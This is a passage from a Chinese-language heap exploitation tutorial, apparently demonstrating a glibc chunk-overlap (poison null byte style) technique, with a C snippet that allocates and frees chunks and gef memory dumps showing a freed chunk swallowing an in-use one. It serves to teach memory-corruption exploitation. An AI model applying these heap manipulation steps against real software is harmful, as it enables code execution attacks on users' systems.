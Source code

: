 申请chunk_b2作为我们的victim案例，并将b1 free掉。向chunk b2写入数据（B）。内存状态如图所示。

```
b2 = malloc(0x80);
    fprintf(stderr, "b2: %pn",b2);
    memset(b2,'B',0x80);
    fprintf(stderr, "Current b2 content:n%sn",b2);
    fprintf(stderr, "Now we free 'b1' and 'c': this will consolidate the chunks 'b1' and 'c' (forgetting about 'b2').n");
    free(b1);
```

```
gef➤  x/150xg 0x603000
0x603000:    0x0000000000000000    0x0000000000000111
0x603010:    0x0000000000000000    0x0000000000000000
...
0x603110:    0x0000000000000000    0x0000000000000111
0x603120:    0x00000000006032b0    0x00007ffff7dd1b78 &lt;--chunk_b1(free)
0x603130:    0x0000000000000000    0x0000000000000000
...
0x603210:    0x0000000000000000    0x0000000000000000
0x603220:    0x0000000000000110    0x0000000000000090
0x603230:    0x4242424242424242    0x4242424242424242 &lt;--chunk_b2
0x603240:    0x4242424242424242    0x4242424242424242
0x603250:    0x4242424242424242    0x4242424242424242
0x603260:    0x4242424242424242    0x4242424242424242
0x603270:    0x4242424242424242    0x4242424242424242
0x603280:    0x4242424242424242    0x4242424242424242
0x603290:    0x4242424242424242    0x4242424242424242
0x6032a0:    0x4242424242424242    0x4242424242424242
0x6032b0:    0x0000000000000000    0x0000000000000061
0x6032c0:    0x00007ffff7dd1b78    0x0000000000603110
0x6032d0:    0x0000000000000000    0x0000000000000000
0x6032e0:    0x0000000000000000    0x0000000000000000
0x6032f0:    0x0000000000000000    0x0000000000000000
0x603300:    0x0000000000000000    0x0000000000000000
0x603310:    0x0000000000000060    0x0000000000000000
0x603320:    0x0000000000000210    0x0000000000000110
0x603330:    0x0000000000000000    0x0000000000000000 &lt;--chunk_c

0x603430:    0x0000000000000000    0x0000000000000111
```

现在我们只需要`free(c)`，程序会将chunk_c和chunk_b1之间的超长空间都free掉。查看unsort bins，可以看到这个长0x320的chunk。而未被free的chunk_b2以及free_chunk_b3(见图中)都被包含在这个chunk中。

```
gef➤  x/150xg 0x603000
0x603000:    0x0000000000000000    0x0000000000000111
0x603010:    0x0000000000000000    0x0000000000000000 &lt;--chunk_a
0x603020:    0x0000000000000000    0x0000000000000000
...
0x603110:    0x0000000000000000    0x0000000000000321
0x603120:    0x00000000006032b0    0x00007ffff7dd1b78 &lt;--a long free chunk（pre chunk_b1）
0x603130:    0x0000000000000000    0x0000000000000000
...
0x603220:    0x0000000000000110    0x0000000000000090
0x603230:    0x4242424242424242    0x4242424242424242 &lt;-- chunk_b2
0x603240:    0x4242424242424242    0x4242424242424242
0x603250:    0x4242424242424242    0x4242424242424242
0x603260:    0x4242424242424242    0x4242424242424242
0x603270:    0x4242424242424242    0x4242424242424242
0x603280:    0x4242424242424242    0x4242424242424242
0x603290:    0x4242424242424242    0x4242424242424242
0x6032a0:    0x4242424242424242    0x4242424242424242
```